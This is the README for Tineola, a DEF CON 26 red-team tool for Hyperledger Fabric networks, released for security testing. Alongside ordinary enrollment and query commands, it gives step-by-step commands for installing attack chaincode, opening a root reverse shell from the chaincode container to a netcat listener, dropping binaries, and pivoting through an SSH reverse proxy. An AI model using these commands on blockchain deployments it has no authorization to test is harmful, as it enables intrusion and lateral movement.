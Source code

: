 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf) and [DEF CON 26 Slides](/docs/Tineola-Slides-Defcon26.pdf).**

Watch the DEF CON talk on Youtube:

* https://www.youtube.com/watch?v=xKYIde5jh_8

[Comitting insurance fraud with Tineola](https://github.com/tineola/tineola/wiki/Committing-Insurance-Fraud-with-Tineola) is a hands-on tutorial to hack the insurance app. It's a step-by-step guide to recreating the presentation demos.

![Tineola Logo](docs/tineola_logo.png)

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x only. 10.x fails to validate GRPC/S certificates correctly when we override them in code and 12.x is not supported by the x509 parsing package we use.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
